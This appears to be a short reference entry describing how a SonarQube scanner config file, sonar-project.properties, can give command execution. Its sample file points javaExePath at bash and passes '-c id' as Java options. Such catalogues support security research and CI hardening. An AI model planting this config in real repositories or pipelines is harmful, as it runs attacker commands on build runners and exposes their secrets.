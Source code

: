 ```yaml
---
title: SonarQube Scanner
tags:
- cli
- config-file
- eval-sh
references: 
- https://docs.sonarsource.com/sonarqube-server/9.6/analyzing-source-code/scanners/sonarscanner/
files: ['sonar-project.properties']
---
```


`sonar-scanner` is a scanner that uses an external server to evaluate the code security. It is configured via a config file named `sonar-projects.properties`. RCE can be achieved through `javaExePath`:

```properties
sonar.projectKey=ABC
sonar.scanner.javaExePath=/usr/bin/bash
sonar.scanner.skipJreProvisioning=true
sonar.scanner.javaOpts=-c id
```

*Note: `sonarsource/sonarqube-scan-action` changes directory to `/home/runner/work/_temp/sonarscanner`

